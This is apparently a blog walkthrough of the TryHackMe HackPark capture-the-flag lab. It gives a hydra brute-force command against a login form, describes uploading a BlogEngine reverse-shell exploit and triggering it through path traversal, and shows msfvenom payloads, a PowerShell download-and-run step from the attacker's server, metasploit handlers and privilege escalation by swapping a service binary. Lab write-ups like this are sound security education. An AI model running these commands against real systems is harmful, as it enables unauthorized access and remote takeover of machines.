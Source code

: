 ```yaml
---
slug: hackpark-walkthrough
title: TryHackMe - HackPark - Walkthrough
authors: bw
tags: [learning, hackpark, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [HackPark][hackpark]. Let’s get started!

# Deploy Machine
First step is to deploy the machine! **NOTE:** This machine took about 3 minutes to fully boot up for me.

Then navigate to the website:

![h1](/img/thm/hackpark/h1.webp)

The picture is of a clown from a pretty famous movie. You could do a reverse image search on this if you don’t know the name, but I happen to know the name so I will just answer the question.

# Using Hydra
If we read through the next section we are looking for a Login page. This can be found on the menu button in the top right, and clicking **LOG-IN**

We also need to figure out what type of request this form is making in order to answer the next question.

Let’s run `hydra` against the log-in page. First we need to gather some information:

**Username:** We will use `admin` in this case
**Wordlist:** `rockyou.txt`
**URL:** `http://10.10.253.80/Account/login.aspx`
**POST parameters:** Let’s get these!

In order to get the POST parameters, let’s login with just `admin` and a random password. (I used `test1`). This will give use a POST request sent to the server. Now, let’s inspect the page.

First we need to go to **Network**, and click on the POST request. On the right-hand side, you will see **Resend**. Click on this and select **Edit and Resend**.

![h2](/img/thm/hackpark/h2.png)

From there, we can view the **Request Body** that is being sent to the server. Copy that whole thing and now we can configure our hydra attack.

![h3](/img/thm/hackpark/h3.png)

In this **Request Body**, we need to look for our `admin` and `test1` login and password that we used. We will replace those with `^USER^` and `^PASS^`, respectively. Lastly, we need something to tell hydra when a login attempt **didn’t** work. If we look at the login page when we tried to login previously, we see a “Login failed”. We can use that as our third parameter.

Advertisement

This hydra command is formatted like this:

`hydra -l <user_we_want_to_use> -P <wordlist> <ip> <request_method> '<page_to_attack>:<request_body_to_send_with_parameters>:<failed_notification>'`

Our `hydra` command will be something close to the following:

```bash
hydra -l admin -P ../rockyou.txt 10.10.253.80  http-post-form '/Account/login.aspx:__VIEWSTATE=I3MnpaPIRlkVeH4Kqrvda70AlTlHWpL7b8f3WLwFpdvduY8pg%2FR1KTlj85jTd1HyGNjf62TlDb63aZEhX60AcedUrAFssR0%2F2yq9HgfwhFkNK8lJzqzskyZ52KDSjg5gjbOhz3ke5TnvkzukBIkvgzGzGBqzkiyHRR8bZ6xWltRXOBkS8GomTXvkwVCTpWlKEypbzaZOWME%2BQjrbYQXOktLM8AMOV636Owd%2BwLD6NDYBZYiJs9fLFWVD%2F8GjdQdZukSWV3nPr9SEwGwLhqs%2BgOZT4H8p4SzdXk4sLahpDwygg1HKrbWh5We5Zepu9MRaR87i5pgDFuR0ZVo5QDECFRj%2BAVNQ9sjMu5FiqK62eNJAYEmp&__EVENTVALIDATION=EdyUhLFMjYGwbQuLybR9Bk4empok7oCUscNJn6WrxKizHeT7YhJHGNy%2BXB0Qoq8%2FhKHgGQRO24pmf81EejDPhbhuLgjZSExvSE6MGh4wBW9TEtIufI5vsgCmblpg5xNIcTRefmM%2BCGKT2V68xMx4RTUZ77NQy4gJmmc7GQj5GAckN12s&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

Letting hydra run, we get a successful attempt!

![h4](/img/thm/hackpark/h4.webp)

# Compromise the Machine
Now that we are logged in as `admin`. Navigate to **Admin** > **About** to find the version number.

From here we can go to [Exploit Database][exdb] to find an exploit! There are a few listed, but let’s use this one: [Link][exploit]. (Find the CVE here).

Now reading through the exploit, we need to upload it onto the server. The exploit states how to do this:

>First, we set the TcpClient address and port within the method below to our .>attack host, who has a reverse tcp listener waiting for a connection. Next, we >upload this file through the file manager. In the current (3.3.6) version of >BlogEngine, this is done by editing a post and clicking on the icon that looks >like an open file in the toolbar. Note that this file must be uploaded as >PostView.ascx. Once uploaded, the file will be in the /App_Data/files directory >off of the document root. The admin page that allows upload is: 
>
>`http://10.10.10.10/admin/app/editor/editpost.cshtml`
>
>Finally, the vulnerability is triggered by accessing the base URL for the blog >with a theme override specified like so:
>
>`http://10.10.10.10/?theme=../../App_Data/files`

Let’s follow those instructions! First, copy the “raw” over to your attack machine. Make sure to change the IP to your attack machine IP. (`tun0` if you run `ip a` or `ifconfig`). Also make sure to save the file as `PostView.ascx`.

Let’s go and upload the file. Navigate to **Content** > **Posts** > **Select Post** > **Open Folder Icon** > **Select exploit file** > **Save**

![h5](/img/thm/hackpark/h5.webp)

Now let’s start a netcat listener for the shell to come back to. Open a new terminal windows on attack machine and type: `nc -nvlp 4445`

Navigate to the folder: `http://10.10.253.80/?theme=../../App_Data/files`

View your terminal, and we see a shell!

![h6](/img/thm/hackpark/h6.png)

# Windows PrivEsc
Let’s generate a payload using `msfvenom` in order to get a meterpreter shell.

In a new terminal window generate the payload with the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<THM_ip> LPORT=4446 -f exe -o win_shell.exe
```

Once your payload is generated, we need to upload it. In the folder where you created your payload, open a Python http server with: `python3 -m http.server 80`

Back in the victim machine shell, use the following command to download the payload on to the server:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<thm_ip>:80/win_shell.exe' -OutFile 'c:\windows\temp\win_shell.exe'
```

Before we can execute the file, we need to have a listener open. For this we will use metasploit:

```bash
msfconsole
use exploit/multi/handler
set lhost tun0
set lport 4446
set payload windows/meterpreter/reverse_tcp
run
```

Now that our listener is running, execute the file: `win_shell.exe`

We have our meterpreter shell!

![h7](/img/thm/hackpark/h7.png)

Let’s gather info:

`sysinfo` (OS answer)
`ps` (Abnormal service answer)

Navigate to `C:\Program Files (x86)\SystemScheduler\Events` to find the binary.

We found our binary, now lets create a payload under that binary:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_ip> LPORT=4447 -f exe -o Message.exe
```

Download that file onto the server using the same method we did previously:
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<thm_ip>:80/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```

Once that is complete, background your current metasploit session, and set the multi/handler options to utilize the new port 4447. Once you run that, a session should come up.

`getuid` shows that we are now `Administrator`

![h8](/img/thm/hackpark/h8.png)

Let’s navigate to Jeff’s Desktop and get the flag!

![h9](/img/thm/hackpark/h9.png)

And then get the root flag:

![h10](/img/thm/hackpark/h10.png)

# PrivEsc without Metasploit
This section I will leave for you to do by yourself. It is similar to the Metasploit, but instead of using Metasploit, you will use netcat listener to get the shell instead of the Metasploit multi/handler. The room does a good job of walking you through the process. You will also use [winPEAS][winpeas] to enumerate the system.

Review
This room was a more intermediate level room that still walked you through some steps, but not everything. I liked that it didn’t hand hold throughout the entire process, and it still left some research, previous knowledge up to the person doing it. Overall, it was a great room that I highly recommend!

References
[TryHackMe][thm] | [HackPark Room][hackpark] | [Exploit Database][exdb] | [Exploit][exploit] | [winPEAS][winpeas]

[thm]: https://tryhackme.com
[hackpark]: https://tryhackme.com/why-subscribe?roomCode=hackpark
[exdb]: https://www.exploit-db.com
[exploit]: https://www.exploit-db.com/exploits/46353
[winpeas]: https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS